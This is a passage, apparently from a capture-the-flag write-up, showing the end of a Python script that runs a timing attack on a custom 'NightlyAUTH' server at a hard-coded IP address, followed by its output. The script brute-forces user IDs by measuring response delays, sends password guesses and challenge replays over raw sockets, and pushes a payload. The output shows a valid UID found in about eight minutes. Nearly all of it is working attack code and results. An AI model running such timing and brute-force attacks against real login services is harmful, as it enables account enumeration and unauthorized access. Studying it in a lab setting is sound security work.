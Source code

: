 ```python
            while True:
                password = raw_input("Enter password (cancel with 'quit')\nNightlysploit $> ")
                if password == "quit": break
                self.establish_connection(uid,password)

    def establish_connection(self,uid,password):
        # This function is used to test if a username is valid.
        sock = self.create_socket()
        print("[~] Sending get_challenge")
        sock.sendall("%s\x02\x01\x02\x01%s\x02\x01\x02\x01%s\x02\x01\x02\x01\x45\x4f\x53" % (1, uid, password))
        challenge = sock.recv(1024)
        sock.close()
        print("[~] Got challenge... Sending auth.")
        # We send the auth 5 times because of load-balancing.
        for x in range(0,5):
            sock = self.create_socket()
            sock.sendall("%s\x02\x01\x02\x01%s\x02\x01\x02\x01%s\x02\x01\x02\x01%s\x02\x01\x02\x01\x45\x4f\x53" % (2, uid, password, challenge))
            response = sock.recv(1024)
            if (response == "You were kicked by the NightlyAUTH Server. Reason : Authentification failed.\n"):
                print("[~] Auth failed...")
            else:
                print("[+] Server answered : %s" % response)

    def chunks(self, l, n):
        return [l[i:i+n] for i in range(0, len(l), n)]

    def send_payload(self,sock,uid):
        counter = 0
        #          OPCODE             UID               PASS
        sock.sendall("1\x02\x01\x02\x01%s\x02\x01\x02\x01%s\x02\x01\x02\x01" % (uid,"ninja"))
        for data in self.chunks(self.payload,980):
            counter += 1
            sock.sendall(data)
        # END OF STREAM
        sock.sendall("\x45\x4f\x53")

if __name__ == "__main__":
    boom = TimingAttack(("54.217.202.218",1337))
    print("[~] Discovering average response time...")
    boom.avg_timer()
    print("[~] Bruteforcing...")
    boom.bruteforce()

```

After **8 minutes** on a cheap VPS server :

```
[~] Uid : 3240 took : 0.068480 (32% completed)
[~] Uid : 3241 took : 0.069281 (32% completed)
[~] Uid : 3242 took : 0.069874 (32% completed)
[~] Uid : 3243 took : 0.224517 (32% completed)
[+] Possible valid UID : 3243 found in 484 seconds.
[~] Test n°0 : 0.215680
[+] BANGARANG !
[~] Test n°1 : 0.217219
[+] BANGARANG !
[~] Test n°2 : 0.208675
[+] BANGARANG !
[~] Test n°3 : 0.199905
[+] BANGARANG !
```